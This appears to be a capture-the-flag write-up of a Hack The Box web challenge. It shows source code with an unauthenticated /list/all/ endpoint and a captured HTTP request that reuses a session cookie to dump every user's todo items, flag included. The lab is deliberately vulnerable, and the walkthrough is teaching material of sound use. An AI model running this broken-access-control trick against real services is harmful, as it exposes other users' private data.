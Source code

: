 ```yaml
---
title: "baby todo or not todo"
date: 2021-10-27T12:49:00-00:00
publishdate: 2021-07-19T18:00:00-00:00
releasedate: 2020-11-19T00:00:00-00:00
draft: false
hideTitle: false
Cover: /images/matrix-map.png
icon: /images/padlock-square.png
toc: true
tags: ["SQL", "Broken API"]
categories: ["Challenge", "Walkthrough", "HTB", "Web"]
description: "I'm so done with these bloody HR solutions coming from those bloody HR specialists, I don't need anyone monitoring my thoughts, or do I... ?"
---
```


# baby todo or not todo

This challenge is a docker container, coming packaged with a zip of all of the whole docker container (it's a "white box" challenge.)

Open up the source code and read through it, get a sense of how the app is supposed to work. The name of the folder indicates "broken authentication control", so that's probably where this is headed.

## First Take

The db file **schema.sql** is the first file to read. I find it's easiest to get a handle on how an app works if you can see how the data is stored. The schema reveals what we should find once we do open the database. Once the website is running, the flag will be present in the table **todos** (in the **name** field) with assignee = admin

```sql
DROP TABLE IF EXISTS `users`;
DROP TABLE IF EXISTS `todos`;

CREATE TABLE `users` (
	`id` INTEGER PRIMARY KEY AUTOINCREMENT,
	`name` TEXT NOT NULL,
	`secret` TEXT NOT NULL
);

INSERT INTO `users` (`name`, `secret`) VALUES
	('admin', '%s');

CREATE TABLE `todos` (
	`id` INTEGER PRIMARY KEY AUTOINCREMENT,
	`name` TEXT NOT NULL,
	`done` INTEGER NOT NULL,
	`assignee` TEXT NOT NULL
);

INSERT INTO `todos` (`name`, `done`, `assignee`) VALUES
	('HTB{f4k3_fl4g_f0r_t3st1ng}', 0, 'admin');
```

This gives us an idea of what the final step of the challenge might be. 

Even after ready only app.py, it is clear that the app uses session data to identify the user. There is a username, and a secret; the server checks consistency between these and returns the to-do items accordingly. 



## Straight to the Flag

There is one snippet in the source code that, when you read it, you will realize all of that reading was for nothing. Inside **routes.py** there is a hint: 

```python
...
# TODO: There are not view arguments involved, I hope this doesn't break
# the authentication control on the verify_integrity() decorator
@api.route('/list/all/')
def list_all():
	return jsonify(todo.get_all())
...
```

So there is one route that just dumps the database without checking what user requested it? Nice.

I ran the website's docker container, then caught (in Burp) the first request my browser performed. This is a GET that loads all of the current to-do items. It is trivial to change out the endpoint **/list/user12345678** to **/list/all**, while retaining the secret and cookie:

```http
GET /api/list/all/?secret=C038417EFc3A24D HTTP/1.1
Host: 139.59.183.98:32015
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://139.59.183.98:32015/
Connection: close
Cookie: session=eyJhdXRoZW50aWNhdGlvbiI6InVzZXIzMTgzYjgwZCJ9.YWDKPQ.jkmXBByrr67jX8-sD2tEUpRKLzw
```

As described in routes.py, the response is a dump of the whole database. 

```http
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 687
Server: made with <3 by makelarides
Vary: Cookie
Date: Fri, 08 Oct 2021 23:05:54 GMT

[{"assignee":"admin","done":false,"id":1,"name":"how are you seeing this???"},{"assignee":"admin","done":true,"id":2,"name":"give makelaris and jr a kiss <3"},{"assignee":"admin","done":false,"id":3,"name":"do homework"},{"assignee":"admin","done":false,"id":4,"name":"take groceries"},{"assignee":"admin","done":true,"id":5,"name":"world Domination"},{"assignee":"admin","done":false,"id":6,"name":"HTB{l3ss_ch0r3s_m0r3_h4ck1ng...right?!!1}"},{"assignee":"admin","done":false,"id":7,"name":"test"},{"assignee":"user3183b80d","done":false,"id":8,"name":"hack"},{"assignee":"user3183b80d","done":false,"id":9,"name":"eat"},{"assignee":"user3183b80d","done":false,"id":10,"name":"sleep"}]

```

Well how about that; we didn't even need to log in as admin ;)
